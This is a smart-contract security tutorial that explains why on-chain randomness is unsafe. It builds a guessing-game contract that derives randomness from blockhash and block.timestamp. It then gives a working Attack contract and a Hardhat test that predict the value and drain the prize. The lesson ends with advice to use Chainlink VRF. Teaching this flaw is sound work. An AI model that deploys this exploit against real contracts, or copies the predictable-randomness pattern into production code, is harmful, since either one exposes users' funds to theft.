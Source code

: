 # 🤫 A cautionary tale to never use on-chain randomness

![](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's, that we used in Junior, were created).

<Quiz questionId="22b00580-fe70-4209-bcd7-73fd335ae90a" />

## 🧰 Build

### 👀 Overview

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

### 👷 Setting up Hardhat

Let's start building and see how this would practically work. To start the project, open up your terminal and create a new project directory.

```bash
mkdir randomness
```

Let's start setting up Hardhat inside the `randomness` directory.

```bash
cd randomness
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

Let's first understand what `abi.encodedPacked` does.

We have previously used `abi.encode` in the Sophomore NFT tutorial, and earlier in the Merkle Tree tutorial. It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string. This is used to compute the `tokenURI` of NFT collections often. `encodePacked` takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values. What does this mean? Let's take `uint256` as an example. `uint256` has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on `abi.encodePacked`, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

### Writing the Smart Contracts

Create a file named as `Game.sol` inside your `randomness/contracts` folder and add the following lines of code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Game {
    constructor() payable {}

    // Randomly picks a number out of `0 to 2²⁵⁶–1`.
    function pickACard() private view returns (uint256) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 pickedCard = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        return pickedCard;
    }

    // It begins the game by first choosing a random number by calling `pickACard`
    // It then verifies if the random number selected is equal to `_guess` passed by the player
    // If the player guessed the correct number, it sends the player `0.1 ether`
    function guess(uint256 _guess) public {
        uint256 _pickedCard = pickACard();
        if (_guess == _pickedCard) {
            (bool sent, ) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    // Returns the balance of ether in the contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Game.sol";

contract Attack {
    Game game;

    // Creates an instance of Game contract with the help of `gameAddress`
    constructor(address gameAddress) {
        game = Game(gameAddress);
    }

    // Attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
    // is accessible publicly
    function attack() public {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 _guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        game.guess(_guess);
    }

    // Gets called when the contract receives ether
    receive() external payable {}
}
```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

<Quiz questionId="4398fb9d-e52b-431e-9688-140e9b325e0f" />

### Writing the Test

Create a new file named `attack.js` inside the `test` folder and add the following lines of code

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const game = await Game.deploy({ value: utils.parseEther("0.1") });
    await game.deployed();

    console.log("Game contract address", game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attack = await Attack.deploy(game.address);

    console.log("Attack contract address", attack.address);

    // Attack the Game contract
    const tx = await attack.attack();
    await tx.wait();

    const balanceGame = await game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});
```

### Testing

Now open up a terminal pointing to `randomness` folder and execute this

```bash
npx hardhat test
```

If all your tests passed, you have successfully completed the hack and were able to predict the randomness with 100% accuracy, so it wasn't really that random.

<Quiz questionId="94e27fa6-a537-42c9-8bd1-6afbd30d51c0" />
<Quiz questionId="73b3c3b1-8f21-4eb6-8f40-063a509f87b9" />

## 👮 Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness

<Quiz questionId="6fdad269-f07b-4284-94b0-40cb822f98db" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
